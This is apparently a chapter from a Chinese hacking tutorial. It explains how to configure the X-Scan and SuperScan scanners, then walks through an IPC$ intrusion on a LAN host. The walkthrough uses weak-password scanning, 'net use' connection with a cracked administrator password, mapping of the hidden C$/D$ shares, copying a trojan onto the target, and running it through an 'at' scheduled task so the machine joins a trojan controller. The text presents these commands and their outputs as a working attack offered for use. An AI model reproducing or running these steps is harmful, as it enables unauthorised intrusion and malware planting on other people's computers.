

- 2、扫描器中的百科全书之 X-Scan

X-Scan 是一款非常著名的扫描软件，它主要采用多线程方式对指定 IP 地址段（或单机）进行安全漏洞检测，支持插件功能。扫描内容包括：远程服务类型、操作系统类型及版本、各种弱口令漏洞、后门、应用服务漏洞、网络设备漏洞、拒绝服务漏洞等二十几个大类。



打开“X-Scan”扫描工具，如图 10，界面做的十分简洁，使用起来也非常地简单。

首先我们来看看扫描参数，点击功能按钮栏最前面的那个“O”按钮，弹出扫描参数的设置界面，里面有检测范围、全局设置和插件设置这三个选项，如图 11。

其中“全局设置”里又分别有扫描模块、并发扫描、扫描报告、其他设置这些分选项。“插件设置”里又分别有端口相关设置、SNMP 相关设置、NETBIOS 相关设置、漏洞检测脚本设置、CGI 相关设置、字典文件设置这些分选项。


在“检测范围”里，如果你想要扫描某一台主机，可以输入单个 IP 地址，比如：192.168.0.1。如果你想扫描某一个段的主机，可以输入一个 IP 段，比如：192.168.0.1-192.168.0.254，如图 12。

在“扫描模块”里，有关于系统开放的服务、各种弱口令等其他一些设置，如图 13。


在“并发扫描”里，我们可以设置最大并发主机连接数和最大并发扫描线程，以及各个插件的线程数量。这三个选项可以根据自己的实际情况去填写，如图 14。


在“扫描报告”里，可以设置报告的保存类型，如图 15。


在“其他设置”里，一共有 5 个选项，这里主要说说前两个选项，后三个选项大家可根据自己的情况来选择，如图 16。


www.nohack.cn

## 第一章 黑客踩点和主动攻击

第一个选项“跳过没有响应的主机”，意思是PING不通的主机，程序将不再扫描。这是因为X-scan在扫描某个主机时，程序会自动先去PING一下那台主机。PING得通就继续扫描，不通则停止。第二个选项“无条件”，意思是说不管PING的结果如何，都将进行扫描。



再来看看“端口相关设置”，这里可以具体的填入你要扫描的端口，比如：WEB服务的80端口、FTP服务的21端口等，如图17。



在“SNMP相关设置”，将“检测以下SNMP信息”下的选项全选，就能获取界面信息、IP信息、TCP信息、UDP信息、WINS用户表，如图18。一般情况下，这些信息都不选，一来作用不是很大，二来又会影响扫描的速度。

在“NETBIOS相关设置”里，有注册表敏感键值、服务器时间、域控制器信息、传输列表、会话列表、网络服务器列表、网络磁盘列表、共享资源列表、用户列表、本地组列表、组列表、网络文件列表等一些选项，如图19，这些信息我建议大家都选上，因为对入侵还是比较有用的。



最后的三个选项：“漏洞检测脚本设置”、“CGI相关设置”、“字典文件设置”，由于比较简单，一看就明白，我这里就不再一一介绍了。

### 3、舶来金品之SuperScan

- SuperScan是一个功能比较强大的扫描工具，其功能包括有：
- (1)通过Ping来检验IP是否在线；
- (2)IP和域名相互转换；
- (3)检验目标计算机提供的服务类别；
- (4)检验一定范围内目标计算机是否在线和其端口情况；
- (5)工具自定义列表检验目标计算机是否在线和其端口情况；
- (6)自定义要检验的端口并可以保存为端口列表文件；
- (7)软件自带一个木马端口列表trojans.lst，通过这个列表我们可以检测目标计算机是否有木马，同时也可以自己定义修改这个木马端口列表。


图20

打开SuperScan扫描工具，这里我们以其4.0版本为例，如图20，下面我们来简单了解下这款软件的一些功能设置。

选择“扫描”标签项，在“主机名/IP”这里输入你要扫描的单个IP地址，在“开始IP”和“结束IP”里输入开始IP和结尾IP。输完后，按一下主界面底部的箭头，就能导入到IP列表中了。

选择“主机和服务扫描设置”标签项，在这里我们可以详细设置软件的功能，如图21。在“查找主机”里可以设置回显请求、时间戳请求、地址掩码请求、信息请求以及超时设置。其中还可以设置两种端口扫描类型，并添加你要扫描的相关端口等。


图21

选择“扫描选项”标签项，这里可以设置检测开放主机次数、检测开放服务次数、查找主机名、获取标志、隐藏没有开放端口的主机、使用随机IP和端口次序以及调整程序扫描的速度，如图22。


图23


图22

选择“工具”标签项，在“主机名/IP/URL”里输入一个主机名或IP地址，再或者一个网址。然后点选下方的三角标志按钮，就能扫描出相关的数据，如图23。

再来看看程序的最后一个功能：标签页“Windows 枚举”，在“主机名/IP/URL”处，同样也可以输入一个主机名、IP 地址或者一个网址。在左边的枚举类型里，你可以选择相应的服务，比如：Netbios Name Table、Null Session、Mac Addresses、Workstation type、Users 等等，如图 24。



## 1.2 CMD 管道中的不平夜

> IPC$ (Internet Process Connection) 是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道。通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。
> 
> 一般系统在默认情况下安装后，它所有的盘都是隐藏共享的（也就是说在每一个系统盘后加个$，如：C$、D$、E$……）。
> 
> IPC$ 入侵在互联网中未必非常的好使，因为要考虑网速和网络稳定性。但是在局域网使用中，它的成功率却非常之高。所以本节来谈谈如何使用 IPC$ 漏洞实现在 LAN 中自由穿梭！



### 1.2.1 IPC$ 漏洞入侵初探

在进行 IPC$ 漏洞入侵前，我们首先要知道这个漏洞是如何产生的。其实这个漏洞并不是真正意义上的系统漏洞，而是一个局域网共享文件的服务。那为什么又会成为了漏洞呢？这是由于使用者的疏忽而造成的。

打开“X-scan”这款扫描器，点“扫描参数”，范围里输入 IP 地址：192.168.1.20，“扫描模块”选择“开放服务、NT-Server 弱口令、远程操作系统、FTP 弱口令”，如图 25。然后单击“确定”按钮，返回主界面。



在主界面功能按钮栏上单击“开始扫描”按钮（绿色三角形按钮）后，由于 IP 范围只有一个，所以扫描的速度非常的快，结果已经出来了，同时程序会自动生成一张 HTML 的漏洞报告，如图 26、如图 27。

| 主机地址 | 端口/服务 | 服务漏洞 |
|---|---|---|
| 192.168.1.20 | ftp (21/tcp) | 发现安全漏洞 |
| 192.168.1.20 | nt-server弱口令 | 发现安全漏洞 |

| 类型 | 端口/服务 | 安全漏洞及解决方案 |
|---|---|---|
| 漏洞 | ftp (21/tcp) | FTP弱口令 |
| | | FTP弱口令: "user/123456" |
| 漏洞 | | nt-server弱口令 |
| | | nt-server弱口令: "administrator/123456" |

从图27中我们可以看出，目标主机：192.168.1.20中存在两个弱口令，FTP弱口令和nt-server弱口令（注：就是IPC$弱口令）。既然已经成功扫描到了IPC$的弱口令，下面我就通过IPC$漏洞来实现入侵。

首先打开CMD命令提示符，然后输入命令：net use \192.168.1.20\ipc$ /user:"administrator" "123456"，执行后提示连接命令成功（注意：上面的命令包括四个空格，net与use中间有一个空格，use后面有一个，密码左右各有一个空格，如图28。

```
C:\>net use \192.168.1.20\ipc$ /user:"administrator" "123456"
The command completed successfully.
```


到这里，其实我们已经进入了对方的计算机，并且是对方的C盘！此时输入的CMD命令就不再是在我们的计算机上进行执行，而是在对方的计算机上进行执行了。这样，对方的计算机就因为一个小小的IPC$弱口令漏洞而成为了我们的囊中物！

```
C:\>net view \192.168.1.20
Shared resources at \192.168.1.20
Share name Type Used as Comment
D$ Disk
E$ Disk
F$ Disk
C$ Disk
The command completed successfully.
```


### 1.2.2 空连接后时代之共享上传

在前面一节我们介绍了IPC$漏洞的基础知识，并且实现了IPC$连接的建立。在IPC$连接建立成功之后，此时我们要做的工作就是上传我们的木马了，这里笔者先来谈一下共享上传的方法。

- 实现共享上传主要有两种方法：
- 1、直接使用命令复制到对方共享磁盘；
- 2、映射对方磁盘到本机，再复制粘贴。

```
C:\>net use * \192.168.1.20\c$
Drive Z: is now connected to \192.168.1.20\c$.
The command completed successfully.

C:\>net use * \192.168.1.20\d$
Drive Y: is now connected to \192.168.1.20\d$.
The command completed successfully.
```


```
C:\>net use * \192.168.1.20\d$
The password is invalid for \192.168.1.20\d$.
To connect A672A8F8E47345B\Guest to 192.168.1.20, press ENTER, or type a new user name:
Enter the password for 'A672A8F8E47345B\Guest' to connect to '192.168.1.20':
System error 5 has occurred.
Access is denied.
```


在此之前，我们得事先知道对方开启了哪些共享。在CMD中输入命令：net view \192.168.1.20，列举出对方共享的磁盘，如图29。

#### 方法1：映射对方磁盘到本地

在CMD中输入命令：net use * \192.168.1.20\c$（*是代表随机生成一个没用过的盘符，如：X、Z、Y），如图30。




如果大家在使用net use * \192.168.1.20\c$这条命令映射对方磁盘时，明明输入了正确的用户名和密码还是不能够成功映射，那有可能是因为对方启用了GUEST用户。

而且在XP的“本地安全策略”（在资源管理器的“控制面板”-“管理工具”里）-“用户权限指派”里，“空密码用户只能进行控制台登录”是启用的。也就是说，空密码的任何账户都不能从网络访问，只能本地登录。GUEST默认为空密码，所以需要将“本地安全策略”-“安全选项”-“网络访问”-“仅来宾”改成“经典”。

这里我将对方的C、D盘分别映射成本机上的Z、Y，接下来打开“我的电脑”就能看到这两个新的磁盘了，如图32。

此时，即可直接打开映射好的磁盘将你要上传的文件或木马复制进去。

#### 方法2：直接用COPY命令复制本地文件到对方磁盘

在CMD中输入命令：copy 10.exe \192.168.1.20\d$ (注：10.exe是木马，已经放在C盘下)，如图33。


复制成功，我们打开映射过来的对方D盘，确认一下，如图34。



#### 1.2.3 从NET到AT攻下计算机防线

在前面一节，我们已经成功将木马传到对方主机了，现在要做的就是执行远程的木马程序。这一步非常的关键，能不能成功拿到这台肉鸡就看它了。要远程执行木马，我们主要通过AT命令添加计划任务来实现。

所谓计划任务，意思是说有计划地添加某个任务，指定一个时间来执行。下面我们具体来看看整个实行过程。

在使用AT命令之前，我们必须知道对方计算机现在的时间，这里可以用net time命令来获取。在CMD中输入命令：net time \192.168.1.20，如图35。



既然知道了对方主机的时间，我们就可以用AT命令来添加计划任务了。在CMD中输入命令：at \192.168.1.20 10:17 d:\10.exe，如图36。注意：AT后面的时间必须是24小时制，时间后面我们还可以执行系统命令。不过，执行命令要记得给命令加上双引号。



添加计划任务成功，接下来我们要做的事情就是等待10:17分的来临。当时间到了后，此时打开我们的木马客户端，看看肉鸡上线没？可以看到在反弹控制端中，已经安静的出现了一台肉鸡，如图37。

